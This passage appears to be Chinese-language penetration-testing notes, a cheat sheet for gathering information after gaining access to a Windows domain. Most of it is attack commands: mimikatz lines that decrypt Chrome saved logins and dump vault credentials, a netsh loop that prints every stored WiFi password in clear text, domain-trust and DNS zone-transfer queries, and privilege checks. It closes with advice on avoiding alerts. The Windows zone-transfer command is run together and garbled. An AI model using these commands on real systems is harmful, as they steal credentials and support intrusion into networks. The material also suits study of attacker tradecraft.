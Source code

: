 ```
mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login  Data" /unprotect
```

### 解密Credential：

```
mimikatz vault::cred /patch
```

## 域信任

```
nltest /domain_trusts
```

## 域传送

### windows

```
nslookup  -type=ns domain.comnslookupsserver  dns.domain.comls  domain.com
```

### linux

```
dig  @dns.domain.com axfr domain.com
```

## WIFI

```
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles')  do  @echo %j | findstr -i -v echo |  netsh wlan show profiles %j key=clear
```

## GPP

学习提权的时候再做了解

## 其他基础信息收集

### 获取当前shell权限

```
whoami /user && whoami /priv
```

别看到普通权限就提权，实在没法深入再提权。

提权可能打崩服务器，或者不免杀触发警报。

